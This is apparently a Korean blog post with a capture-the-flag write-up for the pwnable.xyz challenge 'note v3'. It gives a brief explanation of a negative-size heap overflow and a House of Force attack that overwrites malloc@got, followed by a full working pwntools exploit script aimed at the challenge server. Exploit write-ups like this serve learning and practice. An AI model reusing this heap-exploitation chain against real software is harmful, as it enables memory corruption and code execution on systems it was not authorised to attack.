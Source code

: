 ```yaml
---
title: "[pwnable.xyz]note v3"
date: 2020-3-11
ctf: Pwnable.xyz
layout: post
published : false
---
```


한번 코드가 계속 덮이는데 오류떠서 다시 밀고 짜버렸다. 힙을 두개 할당해주는데 처음 청크는 note글자의 사이즈와 title 주소를 써준다.

익스는 쉬웠다. size를 -1로 입력해서 note 글자 사이즈를 0xffffffff으로 만들어줘서 edit에서 0xffffffff만큼 edit할 수 있다. 그래서 topchunk를 덮을 수 있었고 title주소를 bss영역의 note주소로 바꿔서 heap주소를 leak해주고 topchunk 주소를 구할 수 있으므로  `house of force` 를 이용해서 aaw를 만들 수 있다. 나 같은 경우에는 malloc@got를 덮었다. 이게 처음에 힙을 하나 할당해줘서 offset을 잘 맞춰주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30041)
#libc = ELF('./alpine-libc-2.24.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
notes = 0x00000000006012A0
win = e.symbols['win']

def make(size,title,note,m=True):
	sa('>','1')
	sa(':',str(size))
	sa(':',title)
	if m:
		sa(':',note)

def edit(note,data):
	sa('>','2')
	sa(':',str(note))
	sa(':',data)

def _list():
	sa('>','3')

def quit():
	sa('>','0')

make(-1,'A','A',m=False)
make(-1,'B','B',m=False)
edit(1,p64(0)+p64(0x31)+p64(0x42)+p64(0)*4+p64(0xffffffffffffffff))
edit(0,p64(0)+p64(0x31)+p64(0x41)+p64(0)*4+p64(0x21)+p64(0xffffffff)+p64(notes))
_list()
p.recvuntil('\x0a')
heap_base = u64(p.recv(4).ljust(8,'\x00')) - 0x10
log.info('heap_base : {}'.format(hex(heap_base)))
top_chunk = heap_base + 0xa0
log.info('top_chunk : {}'.format(hex(top_chunk)))

hof = (0x0000000000601290 - top_chunk - 0x10 - 0x8 - 80) & 0xffffffffffffffff
print hex(hof)

make(hof,p64(win),p64(win),m=False)

sa('>','1')
sa(':','1')

p.interactive()
```

<br />

## Reference

https://www.lazenca.net/display/TEC/The+House+of+Force

